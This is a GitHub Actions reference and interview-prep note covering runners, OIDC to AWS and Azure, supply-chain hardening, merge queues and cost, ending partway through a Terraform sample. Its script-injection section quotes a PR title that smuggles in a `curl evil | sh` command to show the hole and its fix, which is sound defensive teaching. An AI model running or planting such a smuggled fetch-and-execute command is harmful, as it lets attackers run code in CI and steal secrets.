



# N1 GitHub Actions
> Last verified: 2026-10 · Audience: senior/staff DevOps, SRE, AI eng, NetEng, DevSecOps, architects

## TL;DR
- **Model:** event → workflow (`.github/workflows/*.yml`) → jobs (each on a fresh runner, parallel by default, ordered with `needs`) → steps (shell `run:` or `uses:` an action). Jobs share nothing except **artifacts, caches and outputs**.
- **Runners:** GitHub-hosted (ephemeral VM, zero ops), **larger runners** (bigger/GPU/ARM, static IPs or **Azure VNet injection**), self-hosted (your network, your patching) — at scale on Kubernetes via **Actions Runner Controller (ARC)** runner scale sets with ephemeral JIT runners.
- **Security story interviewers want:** default `GITHUB_TOKEN` to read-only and grant per job; **OIDC federation** to AWS/Azure instead of stored keys; **pin third-party actions to full commit SHA** (tj-actions/changed-files, CVE-2025-30066, March 2025, proved why); never check out PR code under `pull_request_target`; pass `${{ github.event.* }}` through `env:` to stop **script injection**.
- **Supply chain:** `actions/attest-build-provenance` gives **SLSA v1.0 Build L2** signed provenance (Sigstore); Build L3 by doing the build in a **shared reusable workflow**; verify with `gh attestation verify` / admission policy.
- **Gating:** environments (≤6 required reviewers, wait timer ≤30 days, branch policies, custom protection rules) + rulesets + **merge queue** (`merge_group` event) = safe trunk-based delivery.
- **Reuse:** reusable workflows (whole jobs, own runners, secrets/permissions boundary, 10 levels, 50 unique per file) vs composite actions (steps inlined into a caller job).
- **Speed/cost:** cache (10 GB/repo default, 7-day idle eviction), path filters for monorepos, test sharding via matrix (≤256 jobs/run), `concurrency` to cancel superseded runs; Linux 2-core is $0.006/min, macOS ~10x.

## N1.1 Architecture: workflows, events, jobs, steps
- **How it works:**
  - **Workflow** = YAML in `.github/workflows/`; triggered by **events** (`push`, `pull_request`, `pull_request_target`, `merge_group`, `workflow_dispatch` (≤25 inputs), `schedule` (cron, UTC, default branch only), `workflow_call`, `workflow_run`, `release`, `repository_dispatch`).
  - **Job** = unit scheduled onto one runner (`runs-on`); jobs run **in parallel** unless `needs:` creates a DAG. Each job gets a clean workspace — pass data via `outputs`, artifacts or caches.
  - **Step** = `run:` (shell) or `uses:` (action: JavaScript, Docker container, or composite). Steps share filesystem and env within the job; `$GITHUB_ENV`, `$GITHUB_OUTPUT`, `$GITHUB_STEP_SUMMARY` are the files for cross-step state.
  - **Contexts/expressions** `${{ }}` (github, env, vars, secrets, matrix, needs, inputs) are **evaluated before the shell runs** — this is the root of script injection (N1.6).
  - Limits: job on GitHub-hosted **6 h**, self-hosted **5 days**; workflow run **35 days**; self-hosted job queue **24 h**; **1,500 events / 10 s / repo**; GITHUB_TOKEN API **1,000 req/h/repo** (15,000 on Enterprise Cloud); default `timeout-minutes` 360.
- **Trade-offs / when to use:**
  - Tight SCM integration (checks, PR annotations, environments, OIDC, attestations) vs. weaker DAG/pipeline visualisation and cross-repo orchestration than GitLab parent/child or Azure multi-stage pipelines.
- **Interview angles:**
  - "Why did my workflow not run?" → path filter (diff > 3,000 files and match not in first 3,000 → doesn't run), `schedule` only on default branch, workflow file not on the ref, events from `GITHUB_TOKEN` **don't trigger new workflows** (except `workflow_dispatch`/`repository_dispatch`) to prevent recursion — use a GitHub App token if you need chaining.
  - `pull_request` from a fork gets a read-only token and no secrets — by design.

## N1.2 Runners: GitHub-hosted, larger, self-hosted, ARC
- **How it works:**
  - **GitHub-hosted standard:** fresh VM per job (Ubuntu/Windows/macOS), destroyed after; preinstalled toolchains; concurrency per plan: Free 20, Pro 40, Team 60, Enterprise 500; **macOS 5**.
  - **Larger runners** (Team/Enterprise Cloud): more CPU/RAM/disk, GPU, arm64, **static IP ranges** (for allow-lists), **Azure private networking** (runner NIC injected into your VNet subnet; 2–64 vCPU Ubuntu/Windows; NSG outbound rules apply; *no* static IP when VNet-injected), runner groups, up to 1,000 concurrent jobs (100 GPU). **Never** drawn from included minutes on private repos; billed even in public repos.
  - **Self-hosted:** runner agent long-polls GitHub over **outbound HTTPS 443** (no inbound ports) — works behind NAT/in private subnets. Free of GitHub minute charges; you pay the compute and the ops. Use **JIT/ephemeral** runners (one job, then deregistered); otherwise state leaks between jobs.
  - **ARC (Actions Runner Controller):** Kubernetes operator, two Helm charts — `gha-runner-scale-set-controller` + `gha-runner-scale-set` (one per scale set). **Listener pod** holds a long-poll HTTPS session to the Actions service, receives "Job Available", patches the **EphemeralRunnerSet** replica count; each runner pod fetches a **JIT config**, runs one job, deletes itself. `runs-on: <scale-set-name>`; `minRunners`/`maxRunners`; scale to zero.
  - ARC **container modes:** `dind` (privileged Docker-in-Docker sidecar — easy, but privileged) vs `kubernetes` (runner container hooks launch job/service containers as separate pods; needs a RWX/ephemeral work volume, no privileged). The older community "summerwind" ARC (RunnerDeployment + HorizontalRunnerAutoscaler) is legacy — new installs use scale sets.
- **Trade-offs / when to use:**

| Need | Pick |
|---|---|
| Zero ops, public/OSS, standard builds | GitHub-hosted |
| Reach private Azure resources without self-hosting | Larger runner + Azure private networking |
| Partner allow-lists by source IP | Larger runner static IPs |
| Private AWS VPC/EKS/RDS access, custom HW, cheap spot capacity, data residency | Self-hosted (ARC on EKS, or EC2 ASG with ephemeral runners) |
| GPU builds/tests occasionally | GPU larger runner; heavy steady use → self-hosted GPU pool |

- **Interview angles:**
  - "Self-hosted runners on a public repo?" → **almost never**: any fork PR can run code on your box and persist. Use runner groups restricted to selected repos/workflows.
  - Isolate runner pools by **trust tier** (prod-deploy pool with IAM to prod vs untrusted PR pool); one runner pod per job; separate namespaces/node pools; deny IMDS (block 169.254.169.254 or IMDSv2 hop limit 1) so jobs don't inherit the node role — use IRSA/EKS Pod Identity or OIDC instead.
  - ARC pitfall: image pull time dominates cold start → pre-pull/cache images, keep `minRunners` > 0 for busy pools; Docker layer cache needs a registry cache or PV.

## N1.3 Orchestration: needs, matrix, concurrency, environments
- **How it works:**
  - **`needs`** builds the DAG; downstream jobs are skipped if an upstream fails unless `if: always()` / `if: ${{ !cancelled() }}`; consume `needs.<job>.outputs.<name>`.
  - **Matrix:** cartesian product with `include`/`exclude`; **≤256 jobs per workflow run**; `fail-fast` default **true**; `max-parallel` to throttle (e.g. protect a shared test DB). Dynamic matrix via `fromJSON(needs.plan.outputs.matrix)`.
  - **`concurrency`** (workflow or job level): one running + **one pending** per group by default; a newer pending one replaces the older pending; `cancel-in-progress: true` kills the running one. Newer option `queue: max` keeps up to **100** queued in a group (cannot combine with `cancel-in-progress`). Typical keys: `${{ github.workflow }}-${{ github.ref }}` for PR CI; `deploy-prod` for serialised deploys.
  - **Environments:** named targets (`environment: production`) with **protection rules**: **required reviewers (up to 6 users/teams, optional prevent self-review)**, **wait timer 1–43,200 min (30 days)** (not billed), **deployment branch/tag policies** (all / protected only / patterns), **custom deployment protection rules** via GitHub Apps (≤6 per env, e.g. Datadog/ServiceNow gates), admin bypass toggle. Environment-scoped **secrets/variables** only released after rules pass. Plan caveat: for **private repos**, reviewers/wait timers need Enterprise (Free/Pro/Team = public only).
- **Trade-offs / when to use:**
  - Use environments as the **approval + secret boundary** and as the OIDC `sub` (`repo:org/repo:environment:prod`) so only gated jobs can assume the prod role.
  - Never `cancel-in-progress` on deploy groups (half-applied Terraform / rollout); do use it on PR CI.
- **Interview angles:**
  - "Two merges race to prod" → `concurrency: {group: deploy-prod, cancel-in-progress: false}`; stale pending runs are superseded so prod gets the latest.
  - "Gate prod on an SLO burn check" → custom deployment protection rule or a canary job that queries metrics and fails (see [J6 Release engineering](../J-sre/J6-toil-release-engineering.md)).

## N1.4 Reuse: reusable workflows vs composite actions vs templates
- **How it works:**
  - **Reusable workflow:** `on: workflow_call` with typed `inputs`, `secrets`, `outputs`; called at **job** level: `uses: org/platform/.github/workflows/build.yml@<sha>`. Up to **10 levels** of nesting; **50 unique reusable workflows per top-level file** (whole tree). Caller `env` does **not** propagate; secrets pass only explicitly or via `secrets: inherit` (one hop only); **permissions can only be kept or reduced**. Matrix (`strategy`) on the calling job is allowed. The callee's jobs choose their own runners/environments, and OIDC tokens carry `job_workflow_ref` — so cloud trust can require "deployed by the blessed workflow".
  - **Composite action:** `action.yml` with `runs.using: composite`; a bundle of **steps** inlined into the caller's job (same runner, workspace, env). Can't define jobs, runners, environments or concurrency; secrets must be passed as inputs.
  - **Workflow templates** (org `.github` repo, `workflow-templates/`): copy-on-create starters — they drift; **required workflows** were folded into **rulesets** ("require workflows to pass before merging").
- **Trade-offs / when to use:**

| | Reusable workflow | Composite action |
|---|---|---|
| Granularity | Jobs (pipeline stage/whole pipeline) | Steps |
| Runner | Its own `runs-on` | Caller's |
| Secrets | `secrets:` / `inherit` | Inputs only |
| Logs | Separate jobs in UI | Collapsed under one step |
| Governance | Central control, `job_workflow_ref` in OIDC → SLSA L3 | Lightweight DRY |

- **Interview angles:**
  - Platform-team pattern: "golden path" reusable workflows in a central repo, pinned by SHA/tag, with Dependabot bumping callers; rulesets enforce that deploy jobs come from them. See [N6 Internal developer platforms](N6-internal-developer-platforms.md).
  - Pitfall: `secrets: inherit` over-shares — prefer explicit secrets (or none, with OIDC).

## N1.5 Caching, artifacts and monorepo path filters
- **How it works:**
  - **Cache** (`actions/cache` or `setup-*` `cache:`): key ≤512 chars; exact-key hit else **`restore-keys`** prefix match (newest wins); **10 GB per repo default** (orgs/enterprises can raise it, billed at $0.07/GB-month beyond included); entries **unused > 7 days evicted**, then LRU when over size. **Scope:** a run can restore from its own branch, the **default branch**, and the PR **base branch** — not sibling/child branches. Rate limits: 200 uploads/min, 1,500 downloads/min per repo. Caches are immutable per key — change the key to refresh.
  - Key design: `${{ runner.os }}-npm-${{ hashFiles('**/package-lock.json') }}` with `restore-keys: ${{ runner.os }}-npm-`. Warm caches on `main` so PRs inherit them.
  - **Artifacts** (`actions/upload-artifact@v4` / `download-artifact@v4`): pass build outputs between jobs and keep reports; v4 artifacts are immutable per name, available immediately in-run; default retention **90 days** (configurable; up to 400 days on private repos — not re-verified); storage billed $0.25/GB-month (shared with Packages). v3 artifact/cache actions are retired.
  - **Monorepo:** `on.push.paths` / `paths-ignore` at workflow level (cannot be per-job) — combine with a "changes" job (e.g. `dorny/paths-filter`) emitting outputs to `if:`-gate jobs or build a dynamic matrix. Required-check trap: a path-filtered workflow that never runs leaves a required check **pending** → use an always-running aggregator job ("ci-ok") as the single required check.
- **Trade-offs / when to use:**
  - Cache = speed optimisation, may miss; Artifact = correctness hand-off, must exist. Never put build outputs you deploy in a cache.
  - Docker layer caching: `docker/build-push-action` with `cache-from/to: type=gha` (uses the same 10 GB) or `type=registry` (ECR/ACR) for big images/ARC runners.
- **Interview angles:**
  - **Cache poisoning:** a PR-triggered or `pull_request_target` job that writes cache under a key `main` later restores = code execution on main. Don't save caches from untrusted contexts; key on lockfile hashes.
  - Low hit ratio → keys too specific (include commit SHA), branch scoping (feature branches can't see each other), or 10 GB thrash in monorepos.

## N1.6 Security hardening
### GITHUB_TOKEN least privilege
- Per-run installation token, expires when the job ends (max 24 h). Set org/repo default to **read-only** and declare `permissions:` at workflow top as `{}` or `contents: read`, then elevate per job (`packages: write`, `id-token: write`, `pull-requests: write`, `security-events: write`, `attestations: write`). Any unspecified scope becomes `none` once you declare a `permissions` block.
### Pin actions
- **Full-length commit SHA is the only immutable reference**; tags/branches can be moved. Org/repo **allowed-actions policy** can block actions and **require SHA pinning** (and blocklist specific actions). Keep pins fresh with **Dependabot** (`package-ecosystem: github-actions`). Add OpenSSF **Scorecard** to flag unpinned deps/over-broad tokens. CODEOWNERS on `.github/workflows/`.
### pull_request_target and workflow_run
- `pull_request_target` runs **in the base repo context with secrets and a write-capable token** even for fork PRs. Danger = checking out `github.event.pull_request.head.sha` and running its build/tests ("pwn request"). Use plain `pull_request` for building untrusted code; if you need privileges (labeling, commenting), don't check out PR code, or split: unprivileged `pull_request` uploads results as an artifact → privileged `workflow_run` consumes them **as data only**.
### Script injection
- `run: echo "${{ github.event.pull_request.title }}"` is template-expanded into the script before bash runs — a title like `"; curl evil | sh; #` executes. Fix: `env: TITLE: ${{ github.event.pull_request.title }}` then `"$TITLE"`, or pass as an action input. Untrusted fields: titles, bodies, branch names, commit messages, emails, labels. Lint with `actionlint`/`zizmor` (tools, not GitHub-official).
### tj-actions/changed-files compromise (CVE-2025-30066)
- **14–15 March 2025**: attacker repointed many existing version tags of `tj-actions/changed-files` (used by 23,000+ repos) to a malicious commit that downloaded a script, **dumped the Runner Worker process memory** and printed secrets (base64, double-encoded) into **build logs** — public logs on public repos = leaked secrets. Fixed in **v46.0.1**. Detected by StepSecurity via anomalous egress to `gist.githubusercontent.com`.
- Root cause chain per third-party analyses: earlier compromise of `reviewdog/action-setup` (CVE-2025-30154) leaked a PAT used to push to tj-actions; reportedly aimed at Coinbase (both unverified against an official GitHub page).
- Lessons: SHA pinning (SHA-pinned users were unaffected unless they bumped to the bad SHA), egress allow-listing on runners (e.g. Harden-Runner), OIDC short-lived creds instead of long-lived secrets, rotate everything exposed, audit logs for the action in the window.
### Self-hosted runner hardening
- Ephemeral/JIT, no public repos, runner groups restricted per repo/workflow, no Docker socket sharing between jobs, least-privilege node IAM, egress control.
- **Interview angles:** "What do you check in a workflow PR review?" → triggers (`pull_request_target`, `workflow_run`), `permissions`, unpinned `uses:`, `${{ }}` in `run:`, `secrets: inherit`, self-hosted labels on public repos, cache writes from untrusted code. Deep dive: [L6 Secrets & supply chain](../L-data-privacy-ai-security/L6-secrets-supply-chain.md).

## N1.7 OIDC federation to AWS and Azure
- **How it works:**
  - Job with `permissions: id-token: write` requests a JWT from **`https://token.actions.githubusercontent.com`** (signed, ~minutes-long). Cloud STS validates signature + claims and returns short-lived creds — **no stored cloud keys**.
  - Key claims: `iss`, `aud`, `sub`, `repository`, `repository_owner`, `ref`, `environment`, `job_workflow_ref`, `runner_environment` (github-hosted/self-hosted). `sub` formats: `repo:org/repo:ref:refs/heads/main`, `repo:org/repo:environment:prod`, `repo:org/repo:pull_request`; sub can be **customised** per org/repo to include e.g. `job_workflow_ref`. New: an **immutable `sub` format with owner/repo IDs** (`repo:org@<id>/repo@<id>:...`) for repos created after mid-July 2026 — protects against repo rename/resurrection attacks.
  - **AWS:** IAM OIDC identity provider for the issuer, audience **`sts.amazonaws.com`**; role trust policy `sts:AssumeRoleWithWebIdentity` with `StringEquals` on `token.actions.githubusercontent.com:aud` and `StringEquals/StringLike` on `:sub`; `aws-actions/configure-aws-credentials` with `role-to-assume`. AWS no longer relies on the thumbprint for this issuer (thumbprint optional in recent Terraform provider versions).
  - **Azure:** Entra ID **app registration** (or **user-assigned managed identity**) with a **federated identity credential**: issuer `https://token.actions.githubusercontent.com`, subject e.g. `repo:org/repo:environment:prod`, audience **`api://AzureADTokenExchange`**; `azure/login` with `client-id`, `tenant-id`, `subscription-id` (IDs, not secrets). Entra federated credential subjects are exact-match (flexible/wildcard matching was in preview — unverified current status); limit 20 federated credentials per app/identity.
- **Trade-offs / when to use:** always prefer OIDC over access keys/SP secrets; scope one role per environment; combine with environment protection so the prod `sub` is only minted after approval.
- **Interview angles:**
  - #1 pitfall: trust policy missing `sub` condition (or `repo:org/*`) → **any repo in GitHub (or any org repo) can assume your role**. Always pin repo **and** branch/environment.
  - `pull_request` from forks can't get id-token write. Self-hosted runners: still use OIDC, not instance roles shared across jobs.
  - Cross-ref zero trust/workload identity: [L7](../L-data-privacy-ai-security/L7-zero-trust-workload-identity.md).

## N1.8 Artifact attestations and SLSA provenance
- **How it works:**
  - `actions/attest-build-provenance` (and `actions/attest-sbom`) produce **in-toto/SLSA provenance** signed via **Sigstore**: OIDC token → short-lived Fulcio cert → signature. **Public repos** use the Sigstore **public-good** instance (Rekor transparency log); **private repos** use **GitHub's own Sigstore instance (no public transparency log)**. Needs `id-token: write` + `attestations: write` (+ `packages: write` to push to GHCR).
  - Provenance records repo, workflow, commit SHA, trigger, runner. Alone = **SLSA v1.0 Build L2**; **Build L3** when the build runs in a **shared reusable workflow** isolated from the calling repo's (untrusted) steps.
  - Verify: `gh attestation verify oci://<image> --owner org` (or `--signer-workflow`), or Kubernetes admission (Sigstore policy-controller / Kyverno) to admit only attested images. Private-repo attestations need Enterprise Cloud (public repos all plans).
- **Trade-offs / when to use:** attest release artifacts/images others consume, not every test build. Attestation is evidence, not a guarantee — the policy check at deploy/admission is what enforces.
- **Interview angles:** "How do you prove prod runs what CI built?" → build once, push by **digest**, attest, verify digest + signer workflow at deploy and admission; deploy manifests reference `@sha256:` not tags. See [N5 IaC pipelines & policy-as-code](N5-iac-pipelines-policy-as-code.md).

## N1.9 Merge queues and rulesets
- **How it works:**
  - **Rulesets** (repo/org level, layered, with `evaluate` mode and bypass lists): require PR + reviews, status checks, signed commits, linear history, deployments to succeed, **required workflows**, block force-push, tag protection, file-path/size restrictions (push rules). Successor to classic branch protection; multiple rulesets aggregate (most restrictive wins).
  - **Merge queue:** PRs enter queue → GitHub creates temporary `gh-readonly-queue/<base>/...` branches containing base + queued PRs ahead → CI must trigger on **`merge_group`** (or checks never report and merges fail) → merge when green; failing group is ejected and the rest re-tested. Settings: **build concurrency 1–100** `merge_group` dispatches, min/max PRs per merge, wait time, status-check timeout, merge method. Cannot be enabled with wildcard branch protection patterns.
- **Trade-offs / when to use:** high-traffic trunk where "green PR on stale base" breaks main. Costs extra CI runs; split fast required checks (merge_group) from slow nightly suites.
- **Interview angles:** "Main keeps breaking despite required checks" → semantic merge conflicts; fix with merge queue (or "require branch up to date", which doesn't scale). Remember to add `merge_group:` to every required workflow.

## N1.10 Reference pipeline: build → test → scan → sign → staging → canary → prod
- **Stages:**
  1. **PR CI** (`pull_request`, `merge_group`): lint, unit tests (sharded matrix), SAST (CodeQL), dependency review, IaC scan, container build (no push or push to ephemeral tag).
  2. **Main build** (`push` to main): build image once, push to ECR/ACR by digest, SBOM, **attest**, image scan (Trivy/Inspector/Defender).
  3. **Deploy staging** (`environment: staging`, OIDC role for staging): deploy digest, smoke/integration tests.
  4. **Canary** (`environment: production`, required reviewers): shift 5–10% (Argo Rollouts / ECS CodeDeploy / AKS + Flagger / App Service slots), watch SLO burn & error rate, auto-rollback.
  5. **Prod** full rollout; serialised by `concurrency: deploy-prod`; record deployment (DORA metrics).
- Push-based (Actions deploys) vs **pull-based GitOps** (Actions updates image digest in a config repo; Argo CD/Flux syncs) — see [N4 GitOps](N4-gitops-argocd-flux.md). Strategies: [C5 Deployment](../C-large-scale-architecture/C5-deployment.md); progressive delivery & DORA: [J6](../J-sre/J6-toil-release-engineering.md).





## N1.11 Speed and cost
- **How it works / levers:**
  - **Pricing (per-minute, private repos):** Linux 2-core **$0.006**, Windows **$0.010**, macOS **$0.062** (rates cut from 1 Jan 2026 — date unverified); included minutes Free 2,000 / Pro & Team 3,000 / Enterprise Cloud 50,000 per month (standard runners only; larger runners never use included minutes). Public repos: standard runners free. Self-hosted: no GitHub charge — GitHub announced a per-minute self-hosted "platform" charge in Dec 2025 then postponed it (unverified); current billing docs still list self-hosted as free (re-check before quoting). Budgets alert at 90%/100%.
  - **Speed:** cache dependencies + Docker layers; **shard tests** across a matrix (e.g. `--shard=${{ matrix.shard }}/8`); path filters/affected-only builds (Nx/Turborepo/Bazel remote cache); `concurrency` cancel superseded PR runs; `fail-fast`; `timeout-minutes` to kill hung jobs (default 6 h burns money); smaller checkouts (`fetch-depth: 1`, sparse-checkout); bigger runner when CPU-bound (2x cores often ~halves time at 2x rate = same cost, faster feedback).
  - **Metrics:** queue time, p50/p95 job duration, cache hit ratio, flaky-test rate, minutes by workflow (Actions usage metrics / performance metrics in org insights).
- **Trade-offs / when to use:** self-hosted on spot (ARC on EKS/AKS with Karpenter/cluster autoscaler) wins at high steady volume or when you need private network/GPU; hosted wins on ops cost and security isolation. macOS minutes are the classic budget killer — minimise iOS jobs, cache aggressively.
- **Interview angles:** "CI takes 40 min, cut it to 10" → profile critical path, parallelise DAG with `needs`, shard tests, remote build cache, cache hit ratio, avoid re-building per job (build once → artifact), merge queue with fast required subset.

## N1.12 Comparison: GitHub Actions vs GitLab CI vs Jenkins vs Azure Pipelines
| Aspect | GitHub Actions | GitLab CI | Jenkins | Azure Pipelines |
|---|---|---|---|---|
| Config | `.github/workflows/*.yml`, many files | single `.gitlab-ci.yml` + `include` | Jenkinsfile (Groovy declarative/scripted) | `azure-pipelines.yml`, stages/jobs/steps + templates |
| Reuse | Marketplace actions, reusable workflows | `include`, CI/CD components catalog, `extends` | Shared libraries, plugins | YAML templates (`extends` for enforcement) |
| Runners | Hosted / larger / self-hosted / ARC | SaaS runners / self-managed runners (K8s executor) | Controller + agents (K8s plugin) | Microsoft-hosted / self-hosted / scale-set agents / **Managed DevOps Pools** |
| Gating | Environments, rulesets, merge queue | Protected envs, merge trains | Input steps, plugins | Environments approvals & checks |
| OIDC | Yes (native) | Yes (`id_tokens`) | Via plugins | Workload identity federation service connections |
| Best fit | GitHub-centric orgs, OSS | All-in-one DevSecOps on GitLab | Max flexibility, on-prem, legacy | Azure/Microsoft shops, Azure Boards/Repos |
- Deep dives: [N2 GitLab CI & Jenkins](N2-gitlab-ci-jenkins.md), [N3 Azure DevOps & AWS CodePipeline](N3-azure-devops-aws-codepipeline.md).
- **Interview angles:** Jenkins = plugin sprawl, controller is a pet + secret store (high-value target); Actions = supply-chain risk via third-party actions; GitLab merge trains ≈ GitHub merge queue; Azure Pipelines `extends` templates ≈ required reusable workflows via rulesets.

## Diagrams
- End-to-end pipeline flowchart and OIDC sequence: see N1.10. ARC scaling:



## Cloud mapping: AWS vs Azure
| Capability | AWS | Azure | Role it plays | Key differences | Alternatives |
|---|---|---|---|---|---|
| Keyless CI auth | IAM OIDC provider + role (`AssumeRoleWithWebIdentity`) | Entra app / user-assigned MI + federated identity credential | Exchange GitHub JWT for short-lived cloud creds | AWS: `StringLike` wildcards on `sub` in trust policy; Azure: subject exact match, ≤20 FICs per identity, audience `api://AzureADTokenExchange` | Vault JWT auth, GCP Workload Identity Federation |
| Login action | `aws-actions/configure-aws-credentials` | `azure/login` | Set env creds for later steps | Both need `id-token: write` | — |
| Container registry | ECR (private, regional; immutable tags option, scan via Inspector) | ACR (Basic/Standard/Premium; geo-replication, private endpoint in Premium) | Store image by digest + attestations (OCI referrers) | ACR geo-replication built-in (Premium); ECR cross-region replication rules | GHCR, Docker Hub, Harbor |
| Container runtime target | ECS (Fargate/EC2) with CodeDeploy blue/green; EKS | AKS; App Service / Container Apps (slots, revisions) | Deploy target | App Service **deployment slots** give easy swap/canary; ECS uses CodeDeploy traffic shifting; EKS/AKS use Argo Rollouts/Flagger | Kubernetes anywhere, Cloudflare Workers |
| K8s access from CI | EKS access entries / aws-auth mapping IAM role → RBAC | AKS Entra ID + Azure RBAC (`kubelogin`) | Map CI identity to cluster RBAC | EKS access entries (API) replace aws-auth ConfigMap | Pull-based GitOps (no CI cluster creds) |
| Private-network runners | Self-hosted in VPC: ARC on EKS or EC2 ASG ephemeral runners (or CodeBuild-hosted Actions runners) | **GitHub-hosted larger runners with Azure private networking** (NIC in your VNet) or ARC on AKS | Reach private endpoints (RDS, private EKS API) | Azure gets a GitHub-managed option; AWS needs self-hosted or CodeBuild | Private link from hosted runners isn't available for AWS natively |
| Secrets for app | Secrets Manager / SSM Parameter Store | Key Vault | Runtime secrets, not CI-stored | Fetch at deploy/runtime with OIDC-granted role | Vault, External Secrets Operator |

- **AWS role pattern:** one IAM role per environment; trust `sub = repo:org/app:environment:prod`; permissions: `ecr:*Push*` scoped to repo ARN + `eks:DescribeCluster` / `ecs:UpdateService`. **AWS CodeBuild** can act as a managed self-hosted runner for Actions (runs inside your VPC) — good middle ground.
- **Azure pattern:** user-assigned managed identity with FIC per environment, `AcrPush` on the ACR, `Azure Kubernetes Service RBAC Writer` scoped to namespace, or Website Contributor for App Service.
- **Private networking:** Azure VNet injection keeps runners GitHub-managed but ties egress to your NSG/firewall/route tables (good for forced tunnelling via Azure Firewall). AWS equivalent requires self-hosted: ARC on EKS in private subnets with NAT egress to GitHub endpoints and VPC endpoints for ECR/S3/STS.
- **Gotcha:** larger runners with Azure VNet injection cannot also use static public IPs; private repos pay for larger runner minutes always.

## Hands-on
Workflow: build, test, OIDC to AWS, push to ECR, attest, deploy to EKS.

```yaml
name: ci-cd
on:
  pull_request:
  merge_group:
  push:
    branches: [main]

permissions:
  contents: read            # least privilege by default

concurrency:
  group: ${{ github.workflow }}-${{ github.ref }}
  cancel-in-progress: ${{ github.event_name == 'pull_request' }}

env:
  AWS_REGION: eu-west-1
  ECR_REPO: app

jobs:
  test:
    runs-on: ubuntu-latest
    timeout-minutes: 20
    strategy:
      matrix:
        shard: [1, 2, 3, 4]
    steps:
      - uses: actions/checkout@<full-40-char-sha>   # v4
      - uses: actions/setup-node@<full-40-char-sha> # v4
        with:
          node-version: 22
          cache: npm
      - run: npm ci
      - run: npx jest --shard=${{ matrix.shard }}/4

  build-push:
    if: github.event_name == 'push'
    needs: test
    runs-on: ubuntu-latest
    environment: staging
    permissions:
      contents: read
      id-token: write        # OIDC
      attestations: write    # provenance
    outputs:
      digest: ${{ steps.build.outputs.digest }}
    steps:
      - uses: actions/checkout@<full-40-char-sha>
      - uses: aws-actions/configure-aws-credentials@<full-40-char-sha>
        with:
          role-to-assume: arn:aws:iam::111122223333:role/gha-app-staging
          aws-region: ${{ env.AWS_REGION }}
      - id: ecr
        uses: aws-actions/amazon-ecr-login@<full-40-char-sha>
      - uses: docker/setup-buildx-action@<full-40-char-sha>
      - id: build
        uses: docker/build-push-action@<full-40-char-sha>
        with:
          push: true
          tags: ${{ steps.ecr.outputs.registry }}/${{ env.ECR_REPO }}:${{ github.sha }}
          cache-from: type=gha
          cache-to: type=gha,mode=max
      - uses: actions/attest-build-provenance@<full-40-char-sha>
        with:
          subject-name: ${{ steps.ecr.outputs.registry }}/${{ env.ECR_REPO }}
          subject-digest: ${{ steps.build.outputs.digest }}
          push-to-registry: true

  deploy-prod:
    needs: build-push
    runs-on: ubuntu-latest
    environment: production          # required reviewers gate + prod OIDC sub
    concurrency:
      group: deploy-prod
      cancel-in-progress: false
    permissions:
      contents: read
      id-token: write
    steps:
      - uses: aws-actions/configure-aws-credentials@<full-40-char-sha>
        with:
          role-to-assume: arn:aws:iam::444455556666:role/gha-app-prod
          aws-region: ${{ env.AWS_REGION }}
      - name: Deploy by digest
        env:
          DIGEST: ${{ needs.build-push.outputs.digest }}
        run: |
          aws eks update-kubeconfig --name prod --region "$AWS_REGION"
          IMAGE="444455556666.dkr.ecr.${AWS_REGION}.amazonaws.com/${ECR_REPO}@${DIGEST}"
          kubectl -n app set image deployment/app app="$IMAGE"
          kubectl -n app rollout status deployment/app --timeout=5m
```
- Notes: replace `<full-40-char-sha>` with real SHAs (Dependabot keeps them current). In real multi-account setups the prod job pulls from a shared/replicated ECR; staging smoke + canary steps omitted for brevity.

Terraform: GitHub OIDC provider + environment-scoped role.

```hcl
resource "aws_iam_openid_connect_provider" "github" {
  url            = "https://token.actions.githubusercontent.com"
  client_id_list = ["sts.amazonaws.com"]
  # thumbprint_list optional in recent AWS provider versions; AWS validates this issuer via trusted CAs
}

data "aws_iam_policy_document" "gha_trust" {
  statement {
    actions = ["sts:AssumeRoleWithWebIdentity"]
    principals {
      type        = "Federated"
      identifiers = [aws_iam_openid_connect_provider.github.arn]
    }
    condition {
      test     = "StringEquals"
      variable = "token.actions.githubusercontent.com:aud"
      values   = ["sts.amazonaws.com"]
    }
    condition {
      test     = "StringEquals"            # never "repo:org/*"
      variable = "token.actions.githubusercontent.com:sub"
      values   = ["repo:my-org/app:environment:production"]
    }
  }
}

resource "aws_iam_role" "gha_app_prod" {
  name                 = "gha-app-prod"
  assume_role_policy   = data.aws_iam_policy_document.gha_trust.json
  max_session_duration = 3600
}

data "aws_iam_policy_document" "deploy" {
  statement {
    actions   = ["eks:DescribeCluster"]
    resources = ["arn:aws:eks:eu-west-1:444455556666:cluster/prod"]
  }
}

resource "aws_iam_role_policy" "deploy" {
